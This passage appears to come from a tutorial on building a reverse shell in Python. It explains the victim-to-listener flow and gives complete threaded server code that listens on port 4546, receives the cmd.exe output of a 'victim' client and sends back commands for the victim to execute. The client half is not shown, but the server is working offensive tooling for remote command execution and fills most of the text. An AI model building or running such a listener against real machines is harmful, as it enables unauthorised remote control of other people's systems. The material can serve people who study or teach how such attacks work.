 - The first thread will run our code contained within the shellreceiver() function.  This function will continually be ready to receive our socket client's cmd shell returned STDOUT (the client's "shell" output).
- The second thread will run our code contained within the shellsender() function.  This function will continually be ready to send your commands you'd like executed on the client since the client will be running the cmd.exe shell. 

I hope that makes sense.  Admittedly it took me some time to finally understand how a shell works.  The example I'm building off of is how your classic reverse shell is executed.  Your victim executes the reverse shell client, which starts the `cmd.exe` process and pipes that output to your socket.  That is then sent to your listening server.  Once our listening server receives the shell output, we send our command back to the client to be executed.  The client is also in a listening state via threads btw, which we will see later.  Okay, let's see the updated code:

**Updated Server Socket code**
-

```python
import socket
import subprocess
import sys
import time
import threading
import asyncio
import io
import os
#import readline
import colorama
from colorama import Fore, Back, Style

#receive the cmd.exe shell command output from the client
def shellreceiver(conn):
    while True:
        try:
            data=conn.recv(1)
            print(data.decode(), end="", flush=True)
        except:
            print("server/socket must have died...time to hop off")
            conn.close()
            os._exit(0)

#send our command we'd like executed on the victim/client!
def shellsender(conn):
    while True:
        mycmd=input("")
        mycmd=mycmd+"\n"
        try:
            conn.send(mycmd.encode())
        except:
            print("server/socket must have died...time to hop off")
            conn.close()
            os._exit(0) 

host = "0.0.0.0"
port = 4546

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((host, port))
s.listen(5)
print(Fore.YELLOW + "[+] listening on port "+str(port), Fore.WHITE)

conn, addr = s.accept()
print(Fore.GREEN, f'\n[*] Accepted new connection from: {addr[0]}:{addr[1]}', Fore.WHITE)

```
